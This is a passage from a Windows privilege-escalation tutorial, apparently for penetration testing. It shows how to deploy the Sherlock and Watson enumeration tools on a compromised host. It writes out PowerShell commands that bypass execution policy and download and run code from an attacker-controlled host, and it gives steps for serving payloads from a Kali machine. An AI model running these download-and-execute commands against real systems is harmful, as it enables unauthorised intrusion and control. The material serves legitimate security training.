 Now we can run this from the remote Windows CMD shell:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Sherlock.ps1'))"
```

Or from a Windows Powershell:

```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/Sherlock.ps1')
```

### Running Watson

Sherlock has been superceded by a .net Windows enumeration platform called Watson which is frequently updated by the author. It is a bit tricker to deploy and use as you need to compile it yourself and match the version of .net with the target system's version.

First, on the target system we will need to check the versions of .Net that have been installed by navigating to the .net framework folder and poking around:

```
cd\Windows\Microsoft.NET\Framework\
dir /s msbuild
```

Only active versions of .NET will have the msbuild.exe. Make note of the available versions and leverage that to compile your version of Watson that targets the remote Windows machine. Download the latest version of Watson from github:

```
git clone https://github.com/rasta-mouse/Watson.git
```

And open it using Visual Studio. In the Solution Explorer, click the Properties and modify the "Target Framework:" value to align with the remote Windows machine's version of the .Net framework. It will prompt you to reopen the project. Once the project has reloaded, Build the project under the Release mode (CTRL + SHIFT + B).

Next we will copy our Watson.exe to our Kali instance and setup a simple python HTTP webserver in Kali to host the file which the remote Windows box can download it from:

```bash
root@kali:~/tools# cd Watson/
root@kali:~/tools/Watson# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Now we will need to transfer the compiled Watson.exe file to our remote windows box:

```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/Watson.exe\", \"C:\\Users\\Public\\Downloads\\Watson.exe\");
```

And now we run the executeable on the remote machine. I like run with all the audit enabled like so:
